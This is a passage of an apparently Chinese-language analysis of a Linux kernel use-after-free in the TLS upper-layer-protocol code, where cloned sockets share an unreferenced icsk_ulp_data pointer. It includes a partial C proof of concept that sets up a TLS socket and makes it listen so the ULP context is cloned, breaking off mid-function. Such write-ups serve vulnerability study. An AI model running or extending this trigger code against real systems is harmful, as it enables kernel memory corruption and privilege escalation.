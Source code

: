 ```C

    .....
    const struct tcp_ulp_ops  *icsk_ulp_ops;
    void __rcu        *icsk_ulp_data;
}

struct tcp_sock {
    /* inet_connection_sock has to be the first member of tcp_sock */
    struct inet_connection_sock inet_conn;
    .....
}
```

根据 tcp\_prot 的定义，在 sock\_copy 通过 memcpy 拷贝 sk->sk\_dontcopy\_end 后面的成员时就会拷贝 icsk->icsk\_ulp\_data，漏洞的关键点是对象指针拷贝后没有使用引用计数管理，释放其中一个指针就会导致悬垂指针的产生。

这样就会有两个 sk 对象指向同一个 icsk\_ulp\_data 指针，从而会导致 UAF，关键 POC

```C
int tls_ctx_alloc(int port)
{
    struct sockaddr_in addr;
    socklen_t len = sizeof(addr);
    int tls, s;

    tls = socket(AF_INET, SOCK_STREAM, 0);
    s = socket(AF_INET, SOCK_STREAM, 0);

    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(port);

    // Put the socket into ESTABLISHED state
    bind(s, &addr, sizeof(addr));
    listen(s, 0);
    connect(tls, &addr, sizeof(addr));
    accept(s, &addr, &len);

    // Initialize TLS ULP
    setsockopt(tls, SOL_TCP, TCP_ULP, "tls", sizeof("tls"));

    return tls;
}

int clone_ulp(int sk, int port)
{
    struct sockaddr_in addr;
    socklen_t len = sizeof(addr);
    int s, new;

    s = socket(AF_INET, SOCK_STREAM, 0);

    // Disconnect the input socket `sk`
    addr.sin_family = AF_UNSPEC;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(port);
    connect(sk, &addr, sizeof(addr));

    // Listen on `sk` (This should not happen!)
    addr.sin_family = AF_INET;
    bind(sk, &addr, sizeof(addr));
    listen(sk, 0);
    connect(s, &addr, sizeof(addr));

```
